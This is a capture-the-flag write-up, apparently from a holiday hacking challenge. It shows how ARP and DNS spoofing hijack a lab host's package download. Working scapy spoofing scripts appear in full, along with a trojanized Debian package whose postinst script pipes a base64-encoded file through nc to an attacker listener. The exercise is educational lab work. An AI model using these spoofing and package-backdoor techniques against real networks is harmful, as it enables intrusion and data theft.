

9) ARP Shenanigans
Difficulty: 4/5
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. Who recused herself from the vote described on the document?
ANSWER: Tanta Kringle

The challenge
Jack Frost has hijacked the host at 10.6.6.35 with some custom malware. Help the North Pole by getting command line access back to this host.
Read the HELP.md file for information to help you in this endeavor.
Note: The terminal lifetime expires after 30 or more minutes so be sure to copy off any essential work you have done as you go.
The machine info
IP address: 10.6.0.2 MAC address: 02:42:0a:06:00:02
ARP poisoning
To start we run tcpdump to check what ip is sending the ARP requests.
guest@29847c69ad6a:~$ tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
03:53:50.538344 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
03:53:51.578334 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
We take the source IP and MAC addresses and modify the ARP poisoning script including the IP that the target is looking for and we use the scapy script to reply to the request providing the destination IP and the MAC address of the local machine. and we use one of the tmux pane to run the script in the backed.
scripts/arp_resp.py
.
Sent 1 packets.
Modified values for ARP poisoning
def handle_arp_packets(packet):
# if arp request, then we need to fill this out to send back our mac as the response
if ARP in packet and packet[ARP].op == 1:
ether_resp = Ether(dst="4c:24:57:ab:ed:84", type=0x806, src="02:42:0a:06:00:02")
arp_response = ARP(pdst="10.6.6.35")
arp_response.op = 2
arp_response.plen = 4
arp_response.hwlen = 6
arp_response.ptype = 0x800
arp_response.hwtype = 0x1
arp_response.hwsrc = "02:42:0a:06:00:02"
arp_response.psrc = "10.6.6.53"
arp_response.hwdst = "4c:24:57:ab:ed:84"
arp_response.pdst = "10.6.6.35"
response = ether_resp/arp_response
sendp(response, iface="eth0")
DNS poisoning
Now we verify that the ARP poisoning is taking place and the type of traffic the target machine is sending with tcpdump.
guest@29847c69ad6a:~$ tcpdump -n
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:16:15.602338 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:16:15.618236 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
04:16:15.646731 IP 10.6.6.35.22953 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
Now we modify the DNS poisoning script with the information we already know so it responds to all DNS requests giving our own machine IP and MAC addresses as destination.
Modified values for DNS poisoning
ipaddr_we_arp_spoofed = "10.6.6.53"
def handle_dns_request(packet):
# Need to change mac addresses, Ip Addresses, and ports below.
# We also need
dstport=packet[IP][UDP].sport
srcport=packet[IP][UDP].dport
dstmac=packet[Ether].src
srcmac=packet[Ether].dst
eth = Ether(src=srcmac, dst=dstmac) # need to replace mac addresses
ip = IP(dst="10.6.6.35", src=ipaddr_we_arp_spoofed) # need to replace IP addresses
udp = UDP(dport=dstport, sport=srcport) # need to replace ports
dns = DNS(
# MISSING DNS RESPONSE LAYER VALUES
id=packet[DNS].id, qr=1, opcode=0,
aa=1, tc=0, rd=1, ra=1, z=0, ad=0, rcode=0,
qdcount=1, ancount=1, nscount=0, arcount=0,
qd=DNSQR(qname=packet[DNS].qd.qname, qtype='A', qclass=1),
an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass=1,
ttl=600, rdata="10.6.0.2")
)
dns_response = eth / ip / udp / dns
sendp(dns_response, iface="eth0")
Verify incoming traffic
Now we run the DNS poisoning script in another pane and verify that both the ARP and the DNS poisoning attacks are working.
guest@29847c69ad6a:~$ tcpdump -n src host 10.6.6.35
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:32:19.882406 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:32:20.481564 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [S.], seq 4256394238, ack 32042649, win 65160, options [mss 1460,sackOK,TS val 626668882 ecr 2887327827,nop,wscale 7], length 0
04:32:20.482458 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 518, win 506, options [nop,nop,TS val 626668883 ecr 2887327828], length 0
04:32:20.483909 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1:1514, ack 518, win 506, options [nop,nop,TS val 626668884 ecr 2887327828], length 1513
04:32:20.484946 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1514:1769, ack 598, win 506, options [nop,nop,TS val 626668885 ecr 2887327830], length 255
04:32:20.485190 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1769:2024, ack 810, win 505, options [nop,nop,TS val 626668886 ecr 2887327831], length 255
04:32:20.488384 IP 10.6.6.35.45802 > 10.6.0.2.80: Flags [S], seq 1443649395, win 64240, options [mss 1460,sackOK,TS val 626668889 ecr 0,nop,wscale 7], length 0
04:32:20.489449 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [FP.], seq 2024:2244, ack 810, win 505, options [nop,nop,TS val 626668890 ecr 2887327831], length 220
04:32:20.490952 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 811, win 505, options [nop,nop,TS val 626668891 ecr 2887327836], length 0
04:32:20.522762 IP 10.6.6.35.49790 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
04:32:20.934339 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
The machine is now receiving request from the poisoned machine on port 80, to verify the type of requests the machine receives we use python3 http.server module.
uest@29847c69ad6a:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [21/Dec/2020 04:34:47] code 404, message File not found
10.6.6.35 - - [21/Dec/2020 04:34:47] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
The server receives requests for a debian package /pub/jfrost/backdoor/suriv_amd64.deb, so we can use that to deliver a malicious package and retrieve the flag.
Building malicious deb package
We reuse one of the packages already present on the machine to build our malicious payload.
cd debs
dpkg -x nano_4.8-1ubuntu1_amd64.deb work
mkdir work/DEBIAN
ar -x nano_4.8-1ubuntu1_amd64.deb
xz -d -v control.tar.xz
tar -xvf control.tar ./control
tar -xvf control.tar ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
We modify the post installation script to exfiltrate the contents of the file we want and we set our machine to listen on the port we specify on the script.
work/DEBIAN/postinst contents
---START---
#!/bin/sh
if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
update-alternatives --install /usr/bin/editor editor /bin/nano 40 \
--slave /usr/share/man/man1/editor.1.gz editor.1.gz \
/usr/share/man/man1/nano.1.gz
update-alternatives --install /usr/bin/pico pico /bin/nano 10 \
--slave /usr/share/man/man1/pico.1.gz pico.1.gz \
/usr/share/man/man1/nano.1.gz
fi
echo "`cat /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt |base64`" |nc 10.6.0.2 8000
---END---
We finish building the package and create the correct directory structure to match the incoming requests
dpkg-deb --build work/
mkdir -p pub/jfrost/backdoor
mv work.deb pub/jfrost/backdoor/suriv_amd64.deb
Setup the exfiltration listener
We set nc to listen in port 8000 as we configured our payload and perform the decoding in another tmux pane.
nc -lvp 8000 |base64 -d |tee -a NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
Serving the malicious payload
We set python http.server module to listen on port 80 and serve the file.
python3 -m http.server 80
Exfiltrated file
January 20, 2020
Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole
Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.
Roll call of Board members please:
Chairman Jack Frost - Present
Vice Chairman Mother Nature - Present
Superman - Present
Clarice - Present
Yukon Cornelius - HERE!
Ginger Breaddie - Present
King Moonracer - Present
Mrs. Donner - Present
Tanta Kringle - Present
Charlie In-the-Box - Here
Krampus - Growl
Dolly - Present
Snow Miser - Heya!
Alabaster Snowball - Hello
Queen of the Winter Spirits - Present
ALSO PRESENT:
Kris Kringle
Pepper Minstix
Heat Miser
Father Time
Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this meeting has been made -- displayed on the bulletin board next to the Pole, listed on the North Pole community website, and published in the North Pole Times newspaper -- for people who are interested in this meeting.
Review minutes for December 2020 meeting. Motion to accept – Mrs. Donner. Second – Superman. Minutes approved.
OLD BUSINESS: No Old Business.
RESOLUTIONS:
The board took up final discussions of the plans presented last year for the expansion of Santa’s Castle to include new courtyard, additional floors, elevator, roughly tripling the size of the current castle. Architect Ms. Pepper reviewed the planned changes and engineering reports. Chairman Frost noted, “These changes will put a heavy toll on the infrastructure of the North Pole.” Mr. Krampus replied, “The infrastructure has already been expanded to handle it quite easily.” Chairman Frost then noted, “But the additional traffic will be a burden on local residents.” Dolly explained traffic projections were all in alignment with existing roadways. Chairman Frost then exclaimed, “But with all the attention focused on Santa and his castle, how will people ever come to refer to the North Pole as ‘The Frostiest Place on Earth?’” Mr. In-the-Box pointed out that new tourist-friendly taglines are always under consideration by the North Pole Chamber of Commerce, and are not a matter for this Board. Mrs. Nature made a motion to approve. Seconded by Mr. Cornelius. Tanta Kringle recused herself from the vote given her adoption of Kris Kringle as a son early in his life.
Approved:
Mother Nature
Superman
Clarice
Yukon Cornelius
Ginger Breaddie
King Moonracer
Mrs. Donner
Charlie In the Box
Krampus
Dolly
Snow Miser
Alabaster Snowball
Queen of the Winter Spirits
Opposed:
Jack Frost
Resolution carries. Construction approved.
NEW BUSINESS:
ANSWER: Tanta Kringle